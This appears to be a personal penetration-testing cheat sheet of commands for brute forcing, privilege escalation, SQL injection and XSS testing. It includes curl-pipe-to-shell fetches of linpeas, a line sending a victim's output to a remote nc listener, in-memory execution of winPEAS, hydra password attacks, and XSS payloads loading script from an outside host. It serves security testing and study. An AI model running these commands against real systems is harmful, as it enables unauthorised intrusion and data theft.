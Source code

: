 ```yaml
---
layout: single
classes: #wide
title: "General Info"
sidebar:
    title: "General Info"
    nav: infosec
collection: infopages
permalink: /infosec/general/
toc: true
toc_sticky: true
author_profile: true
---
```


# Welcome
Hi, this page is because I can't for the life of me remember my options when I am trying to web-test.  

email: ryushe@bugcrowdninja-demon.com

# General tips
flask -> usually jinja2  
```2> /dev/null``` - hides error output  

# Tmux
re-attach session:  
`tmux a`  
Attach file session:  
`tmux -S <name>`   
Rename session:  
`prefix + $`    
Pane -> Window:
`prefix + !`  
Move pane left/right:  
`prefix + { or }`
Save / restore:  
`prefix + s / r`

# Brute-Force
ffuf  
cme - SMB brute force tool  

John the ripper - cracking tool
* `john  --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt jonah.txt`

hydra:  
```
hydra -l usr -P pass.txt ssh://www.example.com  
hydra -l jennifer -P /usr/share/wordlists/rockyou.txt builder -s 8080 http-post-form "/login:j_username=jennifer&j_password=^PASS^&from=&Submit=:Invalid username or password"
```

# Listeners
wireshark - self explanitory  
nc - net cat is a good listner
* Example usage: nc -lvnp 

# Wordlists
/usr/share/wordlists/  
* /seclists

# Network 
```python http.server``` - v3 python  
* Spawns python server

netexec:  
* Network service exploitation tool
* Helps automate assessing large networks


# Linpeas & Winpeas
[Linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS):  
`curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh `  
`python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')" `  

filter to host machine:  
`nc -lvnp 9002 | tee linpeas.out` # host  
`curl $ip:8000/linpeas.sh | sh | nc $ip 9002` # victim  


[Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS):  
url =   
`$url = "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe" `  
One liner to download and execute winPEASany from memory in a PS shell  
`$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEASany_ofs.exe" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("") `

## LINPEAS VIEWING
`less -r <outputfile>` - color codes everythign properly

# Other
Pspy - inspect application  
`powershell -c` - allows for powershell command    
Exiftool - analyzing metadata


# Refrance links 
tbd

# SQL
`' or 1=1 -- -`  

## SQL Map
`sqlmap -r request.txt --dbms=<db> --dump`
- dumps off request to site, attempts to do a sqli

# SSH
`chmod 600 <key>`
`ssh -L <port>:website:80 <user>@myserver`  
- port forwarding, allowing access to website from myserver  
`ssh -R <port>:website:80 <user>@myserver`  
- reverse forwarding, allowing others to view your traffic


# Sockets
`ss -tulpn` (tcp, udp, listenting only, process using socket, dont respolve service names)  
 

# Post exploit
Exiftool - analyzing meta data
look for weird configs  
linpeas.sh big

1. `curl $ip:1111/linpeas.sh`
1. `find / -perm -u=s -type f 2>/dev/null` - suid bit finder


# One liners

Sqlmap from wayback:   
`waybackurls target | grep -E '\bhttps?://\S+?=\S+' | grep -E '\.php|\.asp' | sort -u | sed 's/\(=[^&]*\)/=/g' | tee urls.txt | sort -u -o urls.txt && cat urls.txt | xargs -I{} sqlmap --technique=T --batch -u "{}"`  

XSS from wayback:  
`echo "testphp.vulnweb.com" | waybackurls | egrep -iv ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|icon|pdf|svg|txt|js)" | urldedupe -s | grep -IE "[?].*[&]?" | grep "=" | unew -p | pvreplace '<sCript>confirm(1)</sCript>, <script>confirm(1)</script>' | xsschecker -match '<sCript>confirm(1)</sCript>, <script>confirm(1)</script>' -vuln`  

XSS in x-forward header:  
`findomain -t http://TARGET.COM | gau | bxss -payload '"><script src=https://chirag.bxss.in></script>' -header "X-Forwarded-For"`  